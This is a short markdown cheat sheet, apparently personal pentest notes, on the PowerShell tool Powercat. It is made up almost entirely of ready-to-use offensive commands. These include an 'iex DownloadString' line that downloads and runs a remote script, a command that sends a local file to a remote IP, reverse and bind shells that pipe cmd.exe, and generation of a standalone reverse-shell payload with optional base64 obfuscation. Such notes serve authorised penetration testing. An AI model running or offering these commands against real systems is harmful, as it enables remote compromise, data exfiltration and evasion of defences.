 ```yaml
---
title: Powercat
author: i4
date: M01-10-2023
---
```


## Download
```
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

## File Transfer

Takes an input file `-i` and transfers it to the destination ip `-c`
```
powercat -c x.x.x.x -p x -i C:\path\to\file
```

## Reverse Shell

```
powercat -c x.x.x.x -p x -e cmd.exe
```

## Bind shell

Starts a listener on port `x` piping input to cmd

```
powercat -l -p x -e cmd.exe
```

## Stand-Alone Payloads

Powercat can create stand-alone payloads that only includes the needed functionality.

- `-ge` can be used to obfuscate the code as base64

```
powercat -c x.x.x.x -p x -e cmd.exe -g > reverseshell.ps1
```


